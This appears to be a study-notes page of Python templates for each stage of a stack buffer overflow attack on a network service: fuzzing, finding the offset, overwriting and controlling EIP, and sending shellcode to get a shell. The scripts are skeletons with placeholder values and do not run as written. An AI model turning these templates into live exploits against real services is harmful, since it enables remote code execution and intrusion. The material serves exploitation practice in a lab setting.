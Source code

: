 ### Python Templates for BOF                                                                                                        

There are different stages of BOF and we'll have different scripts for each stage:

### Spiking & Fuzzing
```Python
#!/usr/bin/python

import socket,sys
from time import sleep

buffer = "A" * 100
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21 

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send(buffer + "\r\n")
        s.close()
        sleep(1)
        buffer += "A" * 100
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit
```
### Finding Offset
```Python
#!/usr/bin/python

import sys,socket
from time import sleep

buffer = #Based on at what bytes you get to EIP, generate your pattern and insert it here, example "AAAA"
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send(buffer + "\r\n")
    s.close()
except:
    print("Debugger crashed at %s bytes" % str(len(buffer)))
    sys.exit
```
### Overwriting EIP
```Python
#!/usr/bin/python

import socket,sys

buffer = #Based on the offset bytes, place your pattern here 
buffer += "B" * 4
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
### Owning EIP
```Python
#!/usr/bin/python

import socket,sys

buffer = "A" * (Offset Value)
buffer += #Address of EIP
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
### Getting a Shell
```Python
#!/usr/bin/python

import socket

shellcode = #Place your shellcode here
buff = "A" * (Offset Value)
buff += #Address of EIP 
buff += "\x90" * (8/10/12/16/20...) 
buff += shellcode
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send(buff + "\r\n")
s.close()
```
[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
